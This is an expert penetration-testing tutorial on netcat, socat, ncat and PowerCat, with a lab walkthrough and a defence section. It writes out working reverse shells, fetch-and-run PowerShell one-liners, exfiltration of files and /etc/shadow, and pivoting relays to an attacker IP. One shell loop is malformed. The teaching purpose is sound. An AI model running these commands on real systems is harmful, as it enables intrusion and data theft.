





**Level:** Expert · **Track:** Penetration Testing · **Read time:** 80 min

This is Chapter 8 of the Exploitation notebook and the companion to the previous chapter on reverse and bind shells. There, netcat and socat appeared as shell catchers — one job among many. This chapter treats them as what they really are: **general-purpose byte-moving tools** that do a dozen jobs a penetration tester needs constantly. File transfer when there is no SCP. A quick port scan when nmap is not installed. Banner grabbing to fingerprint a service. A relay that pivots traffic through a compromised host. An encrypted tunnel. A fully-interactive PTY shell. Learn these two tools deeply and you will stop reaching for heavier tooling for tasks that a single line of `nc` or `socat` solves faster.

The two tools are not interchangeable. Netcat is minimal, ubiquitous, and fragile; socat is powerful, precise, and rarely preinstalled. Knowing when to use which — and knowing the exact syntax so you are not fumbling flags on a live target — is the mark of an operator who has internalised the fundamentals.

Everything here assumes explicit written authorisation or lab hardware you own. Moving files, opening listeners, and relaying traffic through a host are all actions that touch real systems and real networks; run them only where you are permitted.

---

## Part 1: What These Tools Actually Do

At the lowest level both tools do the same thing: they connect a **data source** to a **data sink** and shovel bytes between them. Netcat connects standard input/output to a single TCP or UDP socket. Socat connects any two "addresses" — and an address can be a socket, a file, a PTY, a program to execute, standard I/O, or a dozen other things.



That difference — "one socket wired to your terminal" versus "any two endpoints wired together" — is the whole story. Everything netcat does, socat can do; socat adds encryption, PTY allocation, forking, and precise control that netcat lacks. Netcat's advantage is that some version of it is *already on the box*.

**Security relevance:** because these tools move arbitrary bytes with no application-layer semantics, they are the universal glue of post-exploitation — exfiltration, tunnelling, and shell handling all reduce to "move bytes from A to B," which is exactly what they do.

---

## Part 1.5: The Jobs You'll Actually Use Them For

Before the syntax, fix in your head the concrete jobs these tools do on an engagement, so each later part has a hook:

| Job | Tool of choice | Section |
|-----|----------------|---------|
| Catch a reverse shell | `nc` / `socat` | 4, 10 |
| Give a shell (no `-e`) | `nc` mkfifo loop | 4 |
| Fully-interactive shell | `socat` PTY | 10 |
| Encrypted shell | `socat OPENSSL` / `ncat --ssl` | 10 |
| Move a file (no SCP) | `nc` | 5 |
| Scan a few ports | `nc -zvn` | 6 |
| Grab a service banner | `nc` / `openssl s_client` | 6 |
| Drive a protocol by hand | `nc` | 6.5 |
| Forward a port through a pivot | `socat ...,fork` | 11 |
| Reach an internal-only host | `socat` relay | 12 |

Everything else is a variation on these ten. If you can do all ten from memory, you have mastered the chapter.

---

## Part 2: The Netcat Family — Know Which One You Have

"Netcat" is not one program. There are three common implementations and they differ in ways that will bite you if you assume the wrong one:

| Implementation | Package | Key traits |
|----------------|---------|-----------|
| **Netcat-traditional** (Hobbit's original) | `netcat-traditional` | Has `-e` (execute a program), classic behaviour |
| **Netcat-OpenBSD** | `netcat-openbsd` | Default on Debian/Ubuntu/Kali; **no `-e`**, but supports `-c` on some builds, better options |
| **Ncat** (Nmap project) | `ncat` / `nmap` | TLS (`--ssl`), access control, proxying, IPv6; the most capable |

Check which you have:

```bash
nc -h 2>&1 | head -3
# GNU netcat / traditional -> mentions -e
# OpenBSD -> mentions -N, no -e
ls -l $(which nc)     # often a symlink revealing the flavour
```

On Kali, `/usr/bin/nc` is usually the OpenBSD build and `nc.traditional` is available separately. This matters because half the internet's cheat sheets use `nc -e /bin/sh`, which **does not exist** on OpenBSD netcat. Know your build before you copy a command onto a live target.

Install everything so you always have options:

```bash
sudo apt update && sudo apt install -y netcat-traditional netcat-openbsd ncat
# invoke a specific one:
nc.traditional -h
ncat -h
```

---

## Part 3: Netcat Flags — The Ones That Matter

You do not need all of netcat's flags; you need these cold:

| Flag | Meaning | Notes |
|------|---------|-------|
| `-l` | listen mode | wait for a connection instead of dialing |
| `-p PORT` | source/listen port | on OpenBSD, listen port is given after `-l` |
| `-v` | verbose | one `-v` for status, `-vv` for more |
| `-n` | no DNS | numeric only; faster, quieter |
| `-w SECS` | timeout | give up connecting/idling after N seconds |
| `-u` | UDP mode | instead of TCP |
| `-k` | keep listening | stay up after a client disconnects (OpenBSD/Ncat) |
| `-e PROG` | execute program | **traditional/Ncat only**; the shell-exec flag |
| `-z` | zero-I/O | scan mode: connect, report, don't send data |
| `-N` | close on EOF | (OpenBSD) shut down the socket when stdin closes |

Two syntaxes you will see:

```bash
# OpenBSD / most common on Kali:
nc -lvnp 4444           # listen
nc -vn 10.10.10.5 80    # connect

# traditional:
nc -lvp 4444            # listen (no -n needed but fine)
nc -e /bin/sh 10.10.14.7 443   # exec shell (traditional only)
```

**The `-w` timeout is underrated.** Without it, `nc` connecting to a filtered port hangs forever. `nc -vnz -w 2 host 22` gives up after two seconds — essential for scanning.

**On the difference between listen and source port.** In `nc -lvnp 4444` the `-p 4444` sets the *listen* port. In `nc -p 5555 host 80` (connect mode) `-p` sets the *source* port of your outbound connection — occasionally useful to squeeze through a firewall that only permits, say, source port 53 or 88. Most of the time you never touch source port; know it exists for the rare egress rule that keys on it.

**Quick self-test of your build:** run `nc -h 2>&1 | grep -E '\-e|\-k|\-N'`. If `-e` appears you have traditional/ncat; if only `-k`/`-N` appear you are on OpenBSD and must use the `mkfifo` loop for shells.

---

## Part 4: Catching and Throwing Shells (Recap + Depth)

The previous chapter covered shells; here is the netcat-specific depth.

**Listener (catch a reverse shell):**

```bash
rlwrap nc -lvnp 443
```

**The `-e` problem.** `nc -e /bin/sh target 443` (reverse) or `nc -lvnp 4444 -e /bin/sh` (bind) only works on traditional/Ncat. On OpenBSD netcat, use the FIFO trick, which works on *every* build:

```bash
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.10.14.7 443 > /tmp/f
```

How the FIFO loop works, step by step:



`mkfifo` makes a named pipe. `cat /tmp/f` reads from it and pipes into `sh`. `sh`'s output pipes into `nc`, and `nc`'s received data is redirected back into the FIFO — closing the loop so input and output flow both ways with no `-e`.

**Keep the listener alive for repeated callbacks** (e.g., a looping payload):

```bash
nc -lvnkp 443          # -k keeps listening after each disconnect
```

---

## Part 5: File Transfer Without SCP

One of netcat's best tricks: move a file when SCP/SFTP is unavailable (common on stripped-down targets and post-exploitation shells).

**Receiver listens, sender connects** (push a file to a listener):

```bash
# receiver (attacker):
nc -lvnp 4444 > loot.tar.gz
# sender (target):
nc -w 3 10.10.14.7 4444 < loot.tar.gz
```

**Reverse direction — serve a file from your box to the target:**

```bash
# attacker serves:
nc -lvnp 4444 < tool.elf
# target pulls:
nc -w 3 10.10.14.7 4444 > /tmp/tool.elf
```

The transfer ends when the sender's stdin hits EOF; add `-w 3`/`-N` so the socket actually closes and the file finalises. **Always verify integrity** — netcat has no checksums:

```bash
# both sides:
sha256sum loot.tar.gz
```

**Directory transfer** by tarring on the fly (no temp file):

```bash
# sender:
tar czf - /etc/nginx | nc -w 3 10.10.14.7 4444
# receiver:
nc -lvnp 4444 | tar xzvf -
```

For web-app footholds, `python3 -m http.server 8000` on your box plus `wget`/`curl` on the target is often easier than netcat file transfer — but when the target has *only* netcat, this is how you move data. **Blue team note:** large outbound transfers to an unknown host over a raw port is a classic exfiltration signature; DLP and NetFlow anomaly detection target exactly this shape.

---

## Part 6: Port Scanning and Banner Grabbing

When nmap is not installed (or you want to be quiet), netcat scans.

**TCP connect scan of a port range:**

```bash
nc -zvn -w 1 10.10.10.5 20-1000 2>&1 | grep -v 'refused'
```

- `-z` zero-I/O (just test the connection, send nothing)
- `-v` report open ports
- `-n` no DNS
- `-w 1` one-second timeout per port

Sample output:

```
Connection to 10.10.10.5 22 port [tcp/*] succeeded!
Connection to 10.10.10.5 80 port [tcp/*] succeeded!
Connection to 10.10.10.5 443 port [tcp/*] succeeded!
```

**Banner grabbing** — connect and read what the service announces:

```bash
nc -vn 10.10.10.5 22
SSH-2.0-OpenSSH_8.9p1 Ubuntu-3ubuntu0.6
```

For HTTP, send a raw request:

```bash
printf 'HEAD / HTTP/1.0\r\n\r\n' | nc -vn 10.10.10.5 80
```

```
HTTP/1.1 200 OK
Server: Apache/2.4.52 (Ubuntu)
X-Powered-By: PHP/8.1.2
```

That `Server:` and `X-Powered-By:` disclosure is exactly the kind of version fingerprint that feeds `searchsploit` in an earlier chapter. **CTF note:** banner-grabbing with netcat is often the fastest way to identify an odd service on a high port that nmap's `-sV` mis-guesses.

---

## Part 6.5: Manual Protocol Interaction — Netcat as a Debugger

Because netcat speaks raw bytes, it lets you *drive a protocol by hand*. This is how you confirm a finding a scanner only hinted at, and it is a staple of CTF service exploitation.

**SMTP user enumeration** (`VRFY`/`EXPN` on a misconfigured mail server):

```bash
nc -vn 10.10.10.5 25
220 mail.corp.local ESMTP Postfix
VRFY root
252 2.0.0 root
VRFY nosuchuser
550 5.1.1 <nosuchuser>: Recipient address rejected: User unknown
```

The differing responses (`252` vs `550`) leak which local accounts exist — a classic enumeration primitive, and exactly the kind of thing you verify by hand before scripting.

**Redis without auth** (dangerously common):

```bash
nc -vn 10.10.10.5 6379
INFO
$3335
# Server
redis_version:6.0.9
...
CONFIG GET dir
*2
$3
dir
$8
/var/lib
```

An unauthenticated Redis that answers `INFO` and `CONFIG GET` is often a foothold: `CONFIG SET dir` + `SAVE` can write a webshell or SSH key. Netcat is how you confirm the service is open and unauthenticated in seconds.

**Raw HTTP for header/verb testing:**

```bash
printf 'GET / HTTP/1.1\r\nHost: target\r\nConnection: close\r\n\r\n' | nc -vn 10.10.10.5 80
```

Sending requests by hand this way is how you probe for odd verb handling, header injection, and the request-shape quirks that automated tools normalise away. **Bug-bounty note:** many disclosed request-smuggling and host-header findings started as a hand-crafted request over `nc`/`openssl s_client`, because a browser or library would "fix" the malformed bytes you actually need to send.

**TLS services** — swap `nc` for `openssl s_client` to speak the same way over HTTPS:

```bash
openssl s_client -connect 10.10.10.5:443 -quiet
GET / HTTP/1.1
Host: target
```

---

## Part 7: Chat, Relays and Simple Servers

Netcat between two listeners/clients is a bidirectional chat — trivial, but the same mechanism powers relays.

```bash
# host A:
nc -lvnp 9000
# host B:
nc -vn hostA 9000
# type on either end, it appears on the other
```

**Relay / pivot with netcat.** On a compromised middle host you can chain two netcats through a FIFO to forward traffic from an external port to an internal target — a poor-man's port forward:

```bash
# on the pivot host, forward local 8080 -> internal 10.0.0.9:80
mkfifo /tmp/r
nc -lvnp 8080 < /tmp/r | nc 10.0.0.9 80 > /tmp/r
```

Now anyone hitting `pivot:8080` reaches `10.0.0.9:80` through the pivot. This is fragile (single connection, no fork) — socat does it far better (Part 11) — but it works with only netcat present.



---

## Part 7.5: A Persistent "Web Server" and Beacon in One Line

Netcat can answer a request, which is enough to serve a payload or act as a crude beacon endpoint during testing.

```bash
# serve a fixed file to a single GET (loop with while for repeat)
while true; do printf 'HTTP/1.1 200 OK\r\n\r\n'; cat payload.sh; } | nc -lvnp 8000; done
```

More practically, `python3 -m http.server` is the right tool for serving files; use netcat's mini-server only when Python is absent. But the pattern illustrates a point: a listener that both *receives* a callback and *returns* content is the seed of a command-and-control channel — which is why any server making unexpected outbound requests to a bare-bytes listener is treated as compromised.

---

## Part 8: UDP with Netcat

TCP is the default; add `-u` for UDP. Useful for DNS, SNMP, TFTP, and some custom services.

```bash
# UDP listener
nc -luvp 5353
# UDP client
nc -u 10.10.10.5 161
```

UDP has no connection, so `-z` scanning is unreliable (no handshake to confirm) — a "succeeded" only means the packet was sent, not that anything listened. For real UDP scanning use nmap `-sU`; netcat UDP is best for *talking to* a known UDP service, e.g., interacting with a custom CTF service or sending a crafted SNMP/TFTP packet.

---

## Part 8.5: Ncat — The Modern Netcat

`ncat`, shipped with Nmap, is the netcat you should reach for when it is available. It keeps the netcat interface but adds the features the originals lack.

| Feature | Flag | Use |
|---------|------|-----|
| TLS | `--ssl` | encrypt the channel both ways |
| Verify peer cert | `--ssl-verify --ssl-trustfile ca.pem` | mutual auth in a lab |
| Execute (safe) | `--exec 'PROG'` | run a program directly (no shell parsing) |
| Execute via shell | `--sh-exec 'CMD'` | run through `/bin/sh -c` |
| Access control | `--allow IP` / `--deny IP` | only accept from your IP |
| Keep open | `-k` | persistent listener |
| Broker mode | `--broker` | relay between multiple connected clients |
| Chat mode | `--chat` | multi-user chat with client IDs |
| Proxy through | `--proxy host:port --proxy-type socks5` | pivot via a SOCKS/HTTP proxy |

Concrete examples:

```bash
# TLS listener that only accepts your IP, running a shell
ncat -lvnp 443 --ssl --allow 10.10.14.7 --sh-exec '/bin/bash'
# connect out through a SOCKS5 proxy (e.g., an established pivot)
ncat --proxy 127.0.0.1:1080 --proxy-type socks5 10.0.0.9 445
# broker: two agents connect to your ncat and can talk to each other
ncat -lvnp 9001 --broker
```

`--allow` is genuinely valuable on a real engagement: it prevents anyone *else* who finds your listener from using your foothold, and it narrows the blast radius if a callback is intercepted. **Red team hygiene:** always lock listeners to the source you expect.

---

## Part 9: Enter socat — The Address Model

`socat` ("SOcket CAT") takes two **address specifications** and connects them bidirectionally. The general form is always:

```
socat [options] ADDRESS1 ADDRESS2
```

Where each ADDRESS is `TYPE:params,opt1,opt2`. This is more verbose than netcat but vastly more powerful because the address types are rich:

| Address type | Meaning |
|--------------|---------|
| `TCP:host:port` | connect out to a TCP service |
| `TCP-LISTEN:port` | listen for TCP (add `,fork`, `,reuseaddr`) |
| `UDP:host:port` / `UDP-LISTEN:port` | UDP variants |
| `EXEC:'cmd'` | run a program, wire its stdio to the other address |
| `SYSTEM:'cmd'` | run a command line via a shell |
| `PTY` | allocate a pseudo-terminal |
| `FILE:path` | a file (e.g., `FILE:\`tty\`` = your terminal) |
| `STDIO` / `-` | standard input/output |
| `OPENSSL:host:port` | TLS client |
| `OPENSSL-LISTEN:port` | TLS server |
| `SOCKS4:...`, `PROXY:...` | connect through a proxy |

Install and sanity-check:

```bash
sudo apt install -y socat
socat -V | head -1        # version + compiled-in features (look for OPENSSL, PTY)
```

Common global options: `-d` (more `-d` = more debug), `-v` (dump traffic to stderr for debugging), `-b` (buffer size), `-T` (inactivity timeout).

**Netcat equivalents in socat**, to anchor the syntax:

```bash
# netcat: nc -lvnp 4444
socat -d -d TCP-LISTEN:4444,reuseaddr STDOUT
# netcat: nc host 80
socat - TCP:10.10.10.5:80
# file receive (nc -lvnp 4444 > f)
socat -u TCP-LISTEN:4444,reuseaddr OPEN:f,creat
```

`-u` means unidirectional (data flows address1 -> address2 only) — handy for one-way file transfer.

---

## Part 10: socat Shells — Fully Interactive From the First Keystroke

The headline feature: socat can allocate a **real PTY** on the target, giving you a fully-interactive shell with job control, tab completion, and working `Ctrl-C` immediately — no stty ritual.

**Attacker listener:**

```bash
socat -d -d TCP-LISTEN:443,reuseaddr,fork FILE:`tty`,raw,echo=0
```

- `TCP-LISTEN:443,reuseaddr,fork` — listen on 443, allow fast rebinds, fork a child per connection.
- `FILE:\`tty\`,raw,echo=0` — attach the connection to *your current terminal*, in raw mode with local echo off, so your terminal behaves like a real remote console.

**Target (connect back with a PTY-backed bash):**

```bash
socat TCP:10.10.14.7:443 EXEC:'bash -li',pty,stderr,setsid,sigint,sane
```

Option meanings (memorise these — they recur constantly):

| Option | Effect |
|--------|--------|
| `pty` | allocate a pseudo-terminal for the program |
| `stderr` | merge the program's stderr into the PTY (so errors show) |
| `setsid` | new session + process group -> real job control |
| `sigint` | forward `Ctrl-C` as SIGINT to the remote process |
| `sane` | apply sane terminal line settings |

If socat is missing on the target, upload a **static socat** binary (from the well-known static-binaries collection) and run it from `/tmp` — the technique from the previous chapter.

**Encrypted socat shell** (blends with TLS on the wire):

```bash
# attacker: make cert, listen with OPENSSL
openssl req -newkey rsa:2048 -nodes -keyout s.key -x509 -days 3 -out s.crt -subj "/CN=cdn"
cat s.key s.crt > s.pem
socat -d -d OPENSSL-LISTEN:443,cert=s.pem,verify=0,reuseaddr,fork FILE:`tty`,raw,echo=0
# target:
socat OPENSSL:10.10.14.7:443,verify=0 EXEC:'bash -li',pty,stderr,setsid,sigint,sane
```

`verify=0` disables certificate validation (fine for a throwaway lab cert). Now the shell is a genuine TLS stream — a passive IDS sees only ciphertext to port 443.

---

## Part 11: socat Port Forwarding, Relays and Tunnels

This is where socat leaves netcat far behind. With `fork` it handles many simultaneous connections, making it a real forwarder.

**Local port forward** (expose an internal service through a pivot):

```bash
# on pivot: forward pivot:8080 -> internal 10.0.0.9:80, one child per connection
socat TCP-LISTEN:8080,reuseaddr,fork TCP:10.0.0.9:80
```

**Reverse/relay through your own box** (bounce two inbound connections together) and **encrypted tunnels**:

```bash
# turn a plaintext service into a TLS-fronted one
socat OPENSSL-LISTEN:8443,cert=s.pem,verify=0,reuseaddr,fork TCP:127.0.0.1:8080
# consume an internal TLS service and expose it plaintext locally
socat TCP-LISTEN:8080,reuseaddr,fork OPENSSL:internal:8443,verify=0
```



**Why fork matters:** a single `socat TCP-LISTEN` (without `fork`) serves one connection then exits. With `fork`, each new client spawns a child so the forward stays up — the difference between a toy and a usable pivot. For serious multi-hop pivoting you would graduate to chisel/ligolo-ng (a later networking chapter), but socat covers the common single-hop case cleanly.

**UDP-to-TCP bridging** (socat can bridge protocols netcat cannot):

```bash
socat -u UDP-LISTEN:514,fork TCP:logserver:6514
```

---

## Part 11.5: Windows — netcat Without netcat

Windows targets rarely have `nc`, and uploading `nc.exe` trips most AV. Three approaches, in order of preference:

**1. Native `/dev/tcp`-style with PowerShell.** Windows has no `/dev/tcp`, but the `TCPClient` one-liner from the previous chapter is the native equivalent and needs nothing uploaded.

**2. PowerCat** — a PowerShell reimplementation of netcat. It supports listen/connect, `-e` execute, relays, and DNS/TLS transport, all in-memory:

```powershell
# load it (in a lab; fetch from your host)
IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.7:8000/powercat.ps1')
# reverse shell
powercat -c 10.10.14.7 -p 443 -e cmd.exe
# bind shell
powercat -l -p 4444 -e cmd.exe
# file transfer (send)
powercat -c 10.10.14.7 -p 4444 -i C:\loot.zip
# relay: listen on 8080, forward to internal 445
powercat -l -p 8080 -r tcp:10.0.0.9:445
```

**3. `nc.exe` / `ncat.exe`** uploaded to `C:\Windows\Temp` — works, but the binary is heavily signatured. Prefer PowerCat or the native one-liner for stealth.

**ConPTY note:** modern Windows exposes a pseudo-console API (ConPTY). Tools like `ConPtyShell` use it to give a *fully-interactive* Windows reverse shell — the Windows analogue of the socat PTY trick — where `cmd`/`powershell` behave as if on a real console (arrow keys, tab completion, cls). It is the recommended upgrade once you have a basic Windows callback.

```powershell
# ConPtyShell one-liner style (lab): fully interactive PS reverse shell
IEX(IWR http://10.10.14.7:8000/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell 10.10.14.7 443
```

---

## Part 11.6: Moving Data Through Constrained Channels

Sometimes you have *a* channel but not a clean binary one — e.g., a command-exec primitive that only returns text. Encode the file:

```bash
# target: base64 a binary so it survives a text-only channel
base64 -w0 /etc/shadow          # copy the blob out through your text channel
# attacker: decode it back
echo 'cm9vdDokNiQ...' | base64 -d > shadow
```

For binaries over a flaky link, `xxd`/`hexdump` + reassembly, or splitting with `split` and checksumming each chunk, avoids corruption. And when neither `nc` nor `socat` exists, bash's own `/dev/tcp` transfers a file:

```bash
# target pulls a file from a listener using only bash
exec 3<>/dev/tcp/10.10.14.7/4444; cat <&3 > /tmp/tool; exec 3>&-
```

The lesson: netcat and socat are conveniences, not requirements — the underlying idea (bytes over a socket) can always be reconstructed from whatever interpreter the target actually has.

---

## Part 12: Fully Worked Lab — Exfil, Relay, Encrypted Shell

**Scope:** an authorised lab. Attacker Kali `10.10.14.7`. Foothold host `web01` (`10.10.10.5`, dual-homed) reachable; behind it an internal host `db01` (`10.0.0.9`) you cannot reach directly. Goals: (1) exfiltrate a database dump from web01 with netcat, (2) stand up a socat relay on web01 to reach db01, (3) upgrade to an encrypted interactive shell.

### Step 1 — Exfiltrate a file with netcat

On web01 you already have a stabilized shell (previous chapter). Push the dump home:

```bash
# attacker:
nc -lvnp 4444 > db_dump.sql
# web01:
nc -w 3 10.10.14.7 4444 < /var/backups/db_dump.sql
```

Verify:

```bash
# both ends
sha256sum db_dump.sql
# 3f9c...  db_dump.sql   (must match)
```

### Step 2 — Stand up a socat relay to the internal host

web01 has no socat, so upload the static binary first:

```bash
# attacker serves it
python3 -m http.server 8000
# web01 fetches and forwards local 8080 -> db01:3306
wget -q http://10.10.14.7:8000/socat -O /tmp/.s && chmod +x /tmp/.s
/tmp/.s TCP-LISTEN:8080,reuseaddr,fork TCP:10.0.0.9:3306 &
```

Now from Kali, reach the internal MySQL *through web01*:

```bash
mysql -h 10.10.10.5 -P 8080 -u root -p
Enter password:
mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| customers          |
+--------------------+
```

You just queried a host you could not route to, by relaying through the foothold. **Red team relevance:** this single-hop `socat fork` forward is the bread-and-butter of reaching a segmented DB/AD tier from a DMZ box.

### Step 2b — Reverse forward so an internal host can call *you*

The forward above lets *you* reach in. Sometimes you need the opposite: an internal-only host (say `app02`, `10.0.0.20`, which cannot route to the internet) must send *you* a shell. Chain two forwards through web01: web01 listens internally and relays back out to your attacker box.

```bash
# on web01: internal hosts hit web01:9001, traffic relays to attacker:443
/tmp/.s TCP-LISTEN:9001,reuseaddr,fork TCP:10.10.14.7:443 &
# on app02 (only sees the internal net): send its shell to web01:9001
bash -i >& /dev/tcp/10.10.10.5/9001 0>&1
```

Your listener on `443` receives app02's shell even though app02 has no route to you — web01 bridged the two networks.



### Step 3 — Encrypted interactive shell

Replace the plaintext shell with a TLS socat shell so the channel stops standing out:

```bash
# attacker
openssl req -newkey rsa:2048 -nodes -keyout s.key -x509 -days 3 -out s.crt -subj "/CN=cdn"
cat s.key s.crt > s.pem
socat -d -d OPENSSL-LISTEN:443,cert=s.pem,verify=0,reuseaddr,fork FILE:`tty`,raw,echo=0
```

```bash
# web01
/tmp/.s OPENSSL:10.10.14.7:443,verify=0 EXEC:'bash -li',pty,stderr,setsid,sigint,sane
```

Result on the attacker:

```
socat[2291] N accepting connection from AF=2 10.10.10.5:52144 on ...
web01:/var/www/html$ tty
/dev/pts/3
web01:/var/www/html$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

`tty` prints `/dev/pts/3` instead of `not a tty` — proof of a real PTY, fully interactive, over TLS, from the first keystroke. Clean up afterward: kill the relay (`kill %1`), remove `/tmp/.s`, and note both in the report.

---

## Part 12.5: Debugging When It "Does Nothing"

Both tools fail silently in ways that waste minutes. A disciplined debug order:

1. **Add verbosity.** `nc -v` (or `-vv`); `socat -d -d -v`. socat's `-v` dumps the actual bytes crossing the connection to stderr — invaluable for seeing whether data arrives at all.
2. **Prove reachability first.** Before blaming the tool, `nc -zvn -w2 host port`. If that fails, it is a routing/firewall problem, not a socat syntax problem.
3. **Check the listener is actually up.** `ss -tlnp | grep 443` on the listening side.
4. **Confirm the interpreter/binary matches the arch.** `file /tmp/.s` — a wrong-arch static binary silently won't exec.
5. **Watch for `fork`.** If the forward works once then dies, you forgot `,fork`.

Example of socat verbose output revealing a refused inner connection:

```
socat[3120] N listening on AF=2 0.0.0.0:8080
socat[3120] N accepting connection from 10.10.14.7:51120
socat[3121] E connect(5, AF=2 10.0.0.9:3306): Connection refused
```

That `Connection refused` on the *inner* leg tells you the forward is fine but the internal service isn't listening where you thought — a completely different fix than "socat is broken."

### Banner-grab quick reference

| Service | Port | Probe |
|---------|------|-------|
| SSH | 22 | just connect: `nc -vn host 22` |
| HTTP | 80 | `printf 'HEAD / HTTP/1.0\r\n\r\n'` |
| SMTP | 25 | connect, read `220` banner, `EHLO x` |
| FTP | 21 | connect, read `220` banner |
| MySQL | 3306 | connect: version leaks in the handshake bytes |
| Redis | 6379 | `printf 'INFO\r\n'` |

---

## Part 13: Detection & Defense Angle

### Network signals

- **Raw bytes on a "protocol" port.** A plaintext netcat shell on 443/53 that never speaks the expected protocol is caught by any sensor doing protocol validation (Zeek/Suricata). Rule of thumb: *the port lies, the payload tells the truth.*
- **socat OPENSSL with a self-signed `CN=cdn` cert** — TLS with a throwaway certificate and no SNI/JA3 match to known apps stands out to a TLS-fingerprinting proxy.
- **Long-lived low-volume bidirectional flows** (interactive shell) and **short high-volume unidirectional flows** (file exfil) are both anomalous traffic shapes catchable by NetFlow analysis.
- **New listeners on odd ports** (bind shells, relays) show up in socket telemetry.

### Host signals

| Artifact | Detection |
|----------|-----------|
| `nc -e`, `nc.traditional` execution | command-line auditing flags `-e` with a shell path |
| `mkfifo` immediately followed by `nc` | classic reverse-shell/relay pattern in process history |
| `socat ... EXEC:bash,pty` | socat with EXEC+pty is almost never legitimate on a server |
| `socat TCP-LISTEN ... fork TCP:` | a forwarder on a server that isn't a proxy is suspicious |
| a `/tmp/.s` or renamed socat binary | file-integrity / new-executable-in-tmp alerts |
| web/service account running `nc`/`socat` | process-lineage anomaly |

### Defenses

- **Egress filtering / outbound allowlist** — the strongest control; kills reverse shells, exfil, and callback relays alike.
- **TLS inspection** at the proxy so encrypted socat shells cannot hide inside 443.
- **Application allowlisting** (AppLocker/WDAC on Windows; SELinux/AppArmor on Linux) so `nc`/`socat` cannot execute in contexts they have no business in.
- **auditd/Sysmon command-line logging** for `nc -e`, `mkfifo`, `socat EXEC`, and new `/tmp` executables.
- **NetFlow / DLP** for exfil-shaped transfers.

**IR use case:** `ss -tnp` and `lsof` reveal a live socat relay's listening socket and its outbound leg to the internal target — the two-legged socket pair is the tell that a host is being used as a pivot.

---

## Part 14: Common Pitfalls

- **Assuming `-e` exists.** OpenBSD netcat (the Kali default) has no `-e`. Use the `mkfifo` loop or ncat.
- **File transfer never finishes.** Without `-w`/`-N`, the socket doesn't close on EOF and your file looks truncated. Add `-w 3` on the sender.
- **No integrity check.** Netcat has no checksums; always `sha256sum` both ends, especially for binaries.
- **socat listener serves once.** Forgot `,fork`? It handles one connection then exits. Add `fork` for forwarders and multi-shot listeners.
- **Backticks vs quotes in `FILE:\`tty\``.** The backticks must survive to socat; watch your shell quoting.
- **Wrong socat architecture.** A static socat for x86_64 won't run on an ARM target; carry per-arch binaries.
